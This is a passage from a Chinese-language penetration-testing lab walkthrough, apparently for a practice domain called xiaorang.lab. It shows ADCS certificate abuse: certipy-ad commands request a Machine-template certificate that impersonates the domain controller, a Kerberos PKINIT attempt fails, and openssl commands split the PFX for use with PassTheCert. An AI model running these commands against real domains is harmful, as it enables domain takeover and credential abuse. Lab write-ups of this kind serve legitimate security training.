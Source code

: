 可以得知 CA 名 `xiaorang-XR-CA-CA`

申请证书模板

:::warning

这里可能会遇到 `Got error: The NETBIOS connection with the remote host timed out.` 错误

多尝试执行几次就好

:::

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q certipy-ad req -u 'randark2$@xiaorang.lab' -p 'admin123###2' -ca 'xiaorang-XR-CA-CA' -target 172.22.15.18 -template 'Machine'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 8
[*] Got certificate with DNS Host Name 'XR-DC01.xiaorang.lab'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'xr-dc01.pfx'
```

然后尝试申请 TGT 票据

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q certipy-ad auth -pfx xr-dc01.pfx -dc-ip 172.22.15.13
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: xr-dc01$@xiaorang.lab
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

这里的报错，是因为缺少证书，参考 [Pass The Certificate when PKINIT Padata Type is NOSUPP | WHOAMI](https://whoamianony.top/posts/pass-the-certificate-when-pkinit-is-nosupp/)

使用 [AlmondOffSec/PassTheCert: Proof-of-Concept tool to authenticate to an LDAP/S server with a certificate through Schannel](https://github.com/AlmondOffSec/PassTheCert)

首先，先转换证书（证书密码留空即可）

```bash
┌──(randark ㉿ kali)-[~]
└─$ openssl pkcs12 -in xr-dc01.pfx -nodes -out test.pem
Enter Import Password:

┌──(randark ㉿ kali)-[~]
└─$ openssl rsa -in test.pem -out test.key
writing RSA key

┌──(randark ㉿ kali)-[~]
└─$ openssl x509 -in test.pem -out test.crt
```
